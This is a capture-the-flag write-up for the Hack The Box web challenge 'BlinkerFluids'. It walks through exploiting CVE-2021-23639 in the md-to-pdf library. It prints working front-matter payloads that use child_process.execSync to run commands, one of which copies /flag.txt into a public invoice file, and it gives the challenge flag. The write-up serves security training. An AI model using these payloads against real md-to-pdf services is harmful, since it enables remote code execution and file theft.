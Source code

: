 # Web 2: BlinkerFluids
> Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?


#### Difficulty: ★☆☆☆

We are given a zip file that contains the source code for the BlinkerFluids™ invoicing system and access to a running instance of it.
After extracting the zip, I checked the package.json file to see the dependencies. `md-to-pdf` stood out as it is not something I frequently encounter. Based on the Dockerfile, the flag is located on `/flag.txt` of the system.
I googled for CVEs concerning `md-to-pdf` and found [CVE-2021-23639](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-23639) and the [snyk page](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) which contains a POC for **Remote Code Execution (RCE)**:

```
const { mdToPdf } = require('md-to-pdf');
var payload = '---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RCE';
```


I tried pasting the payload directly to the invoice field, but I was met with a client-side error message. To further debug the problem, I built the docker image locally using the included `build-docker.sh` and ran it.
The payload was causing the following error:
`gray-matter engine "jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RC" is not registered`
I checked [gray-matter's github repo](https://github.com/jonschlinkert/gray-matter/blob/master/lib/engines.js), where I found the list of engines and changed the payload to:

```
---javascript
((require("child_process")).execSync("id > /tmp/RCE.txt"))
---RCE
```

which I was able to verify by checking the /tmp/ directory on the running container.
Knowing that the flag is in `/flag.txt`, I changed the payload to:

```
---javascript
((require("child_process")).execSync("cp /flag.txt /app/static/invoices/b1d6a00c-f6f4-43f8-a959-41dd5cdbb998.pdf"))
---RCE
```

which copies the flag.txt file to an invoice pdf that I generated prior. Afterwards, I just opened the pdf, which threw an error as it isn't a pdf anymore, and checked the Sources tab via Chrome dev tools, which contained the contents of the fake pdf:

`HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}`
